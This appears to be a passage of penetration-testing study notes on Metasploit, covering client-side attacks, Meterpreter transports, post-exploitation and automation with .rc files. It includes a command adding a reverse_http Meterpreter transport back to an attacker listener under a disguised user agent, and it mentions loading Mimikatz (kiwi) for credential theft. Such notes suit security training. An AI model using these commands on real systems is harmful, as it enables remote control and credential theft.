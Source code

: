 ## Client Side Attacks
[Offensive Sercurity](https://www.offensive-security.com/metasploit-unleashed/client-side-attacks/): *"As network administrators and software developers fortify the perimeter, pentesters need to find a way to make the victims open the door for them to get into the network. Client side attacks require user-interaction such as enticing them to click a link, open a document, or somehow get to your malicious website."*

## Meterpreter Transports

Transports are the answer to making meterpreter connect over various protocols, see [Transports Documentation](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-transport-control.html). 
```bash
transport list # to list 
transport add -t reverse_http -l 10.10.10.10 -p 5105 -T 50000 -W 2500 -C 100000 -A "Totes-Legit Browser/1.1"
# -l lhost; -p lport, -T retry total, -W retry wait, -C communication timeout, -A custom user agent 

```

## Metasploit Post Exploitation

Metasploit has post-exploitation features and MSF modules that take an active sessions as an argument. These features are best examplified with the various [[Meterpreter-Commands]], although a important feature is `migrate $PSID`-ing to different more stable and more privileged processes in memory. With the `load` command in a Meterpreter one load various modules such as `powershell` and then `powershell_execute`, see [[Useful_Powershell]] for help with basic powershell. Similar `load kiwi` will load [[Mimikatz-Cheatsheet]]. For [[Pivoting-and-Proxying-with-Metasploit]], it different for different version of Metasploit.

## Further Automation
We can pass a .rc file that automates the entire process in similar way as recent versions of [[Recon-ng]].
```bash
sudo msfconsole -r setup.rc
```

## References

[Metasploit](https://www.metasploit.com/)
[Github Metasploit ParrotOS](https://github.com/ParrotSec/metasploit-framework)
[OS Guide to setting up DB](https://www.offensive-security.com/metasploit-unleashed/using-databases/)
[Rapid7 Workspaces](https://docs.rapid7.com/metasploit/managing-workspaces/)
[darkreading on client side attacks](https://www.darkreading.com/risk/anatomy-of-a-client-side-attack-using-metasploit)
[OS Client Side attacks with Metasploit](https://www.offensive-security.com/metasploit-unleashed/client-side-attacks/)
[Gif source](https://www.offensive-security.com/offsec/what-to-expect-new-oscp-exam/)